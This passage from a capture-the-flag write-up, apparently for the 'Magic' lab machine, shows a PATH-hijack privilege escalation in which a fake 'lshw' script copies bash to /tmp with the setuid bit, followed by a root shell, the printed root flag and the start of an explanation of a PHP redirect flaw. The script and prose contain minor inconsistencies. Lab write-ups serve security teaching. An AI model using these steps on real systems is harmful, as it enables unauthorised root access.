 Then create `lshw` (or other mentioned above) bash script to copy `/bin/bash` to `/tmp` and add `chmod u+x` (make the file the bash run as its owner which is root).

```bash
nano lshw
```

```bash
#!/bin/bash

cp /bin/bash /tmp/bash && chmod u+s bash
```

![image.png](/assets/Magic%201e1c3827f4e0807fba44dd3fe8d9c0f5/image%2026.png)

Re run `/bin/sysinfo` again and if it sucess you should see `bash` binary in `/tmp` directory  

![image.png](/assets/Magic%201e1c3827f4e0807fba44dd3fe8d9c0f5/image%2027.png)

Execute it and you should be root 

```bash
theseus@magic:/tmp$ ./bash -p
```

![image.png](/assets/Magic%201e1c3827f4e0807fba44dd3fe8d9c0f5/image%2028.png)

```bash
bash-4.4# cat root.txt 
3a589e85ae93847fb2972ff30e72cc51
```

![image.png](/assets/Magic%201e1c3827f4e0807fba44dd3fe8d9c0f5/image%2029.png)

# Root Analysis

### **Response Manipulation**

The reason why we can access upload.php by tampering the response is because PHP continue to execute the rest of the code even after sending the `Location:` header back to login.php .

<aside>
💡

